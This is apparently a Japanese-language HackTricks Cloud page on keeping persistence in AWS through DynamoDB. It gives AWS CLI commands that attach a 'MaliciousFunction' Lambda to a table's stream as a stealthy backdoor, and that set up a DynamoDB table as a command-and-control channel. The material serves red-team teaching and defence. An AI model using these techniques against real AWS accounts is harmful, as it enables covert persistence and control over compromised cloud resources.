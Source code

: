 # AWS - DynamoDB Persistence

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert)で</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>AWSハッキングをゼロからヒーローまで学ぶ</strong></a><strong>！</strong></summary>

HackTricksをサポートする他の方法:

* **HackTricksにあなたの会社を広告したい**、または**HackTricksをPDFでダウンロードしたい**場合は、[**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)をチェックしてください！
* [**公式PEASS & HackTricksグッズ**](https://peass.creator-spring.com)を入手する
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)を発見する、私たちの独占的な[**NFTs**](https://opensea.io/collection/the-peass-family)のコレクション
* 💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)に**参加する**か、[**テレグラムグループ**](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)を**フォローする**。
* **HackTricks**の[**GitHubリポジトリ**](https://github.com/carlospolop/hacktricks)と[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)にPRを提出して、あなたのハッキングのコツを共有してください。

</details>

### DynamoDB

詳細情報はこちらをアクセスしてください:

{% content-ref url="../aws-services/aws-dynamodb-enum.md" %}
[aws-dynamodb-enum.md](../aws-services/aws-dynamodb-enum.md)
{% endcontent-ref %}

### DynamoDB トリガーを使ったLambdaバックドア

DynamoDBトリガーを使用して、攻撃者はテーブルに悪意のあるLambda関数を関連付けることで、**隠密なバックドア**を作成することができます。Lambda関数はアイテムが追加、変更、または削除されたときにトリガーされ、攻撃者がAWSアカウント内で任意のコードを実行することを可能にします。

{% code overflow="wrap" %}
```bash
# Create a malicious Lambda function
aws lambda create-function \
--function-name MaliciousFunction \
--runtime nodejs14.x \
--role <LAMBDA_ROLE_ARN> \
--handler index.handler \
--zip-file fileb://malicious_function.zip \
--region <region>

# Associate the Lambda function with the DynamoDB table as a trigger
aws dynamodbstreams describe-stream \
--table-name TargetTable \
--region <region>

# Note the "StreamArn" from the output
aws lambda create-event-source-mapping \
--function-name MaliciousFunction \
--event-source <STREAM_ARN> \
--region <region>
```
{% endcode %}

永続性を維持するために、攻撃者はDynamoDBテーブル内のアイテムを作成または変更することができ、これにより悪意のあるLambda関数がトリガーされます。これにより、攻撃者はLambda関数と直接的にやり取りすることなく、AWSアカウント内でコードを実行することができます。

### DynamoDBをC2チャネルとして使用する

攻撃者は、コマンドを含むアイテムを作成し、侵害されたインスタンスやLambda関数を使用してこれらのコマンドを取得し実行することにより、DynamoDBテーブルを**コマンドアンドコントロール（C2）チャネル**として使用することができます。

```bash
# Create a DynamoDB table for C2
aws dynamodb create-table \
--table-name C2Table \
--attribute-definitions AttributeName=CommandId,AttributeType=S \
--key-schema AttributeName=CommandId,KeyType=HASH \
--provisioned-throughput ReadCapacityUnits=5,WriteCapacityUnits=5 \
--region <region>

# Insert a command into the table
aws dynamodb put-item \
--table-name C2Table \
--item '{"CommandId": {"S": "cmd1"}, "Command": {"S": "malicious_command"}}' \
--region <region>
```

侵害されたインスタンスやLambda関数は、定期的にC2テーブルをチェックして新しいコマンドを確認し、それらを実行し、オプションで結果をテーブルに報告することができます。これにより、攻撃者は侵害されたリソースを持続的に制御することができます。

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert)でAWSハッキングをゼロからヒーローまで学ぶ！</strong></summary>

**HackTricksをサポートする他の方法:HackTricksにあなたの会社を広告したい、またはHackTricksをPDFでダウンロードしたい場合は、**[**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)**をチェックしてください！**[**公式PEASS & HackTricksグッズ**](https://peass.creator-spring.com)**を入手する**[**The PEASS Family**](https://opensea.io/collection/the-peass-family)**を発見する、私たちの独占的な**[**NFTs**](https://opensea.io/collection/the-peass-family)**のコレクション💬** [**Discordグループ**](https://discord.gg/hRep4RUj7f)**に参加するか、**[**telegramグループ**](https://t.me/peass)**に参加するか、Twitter 🐦** [**@carlospolopm**](https://twitter.com/carlospolopm)**でフォローする。HackTricksのGitHubリポジトリにPRを提出して、あなたのハッキングのコツを共有する。**

</details>
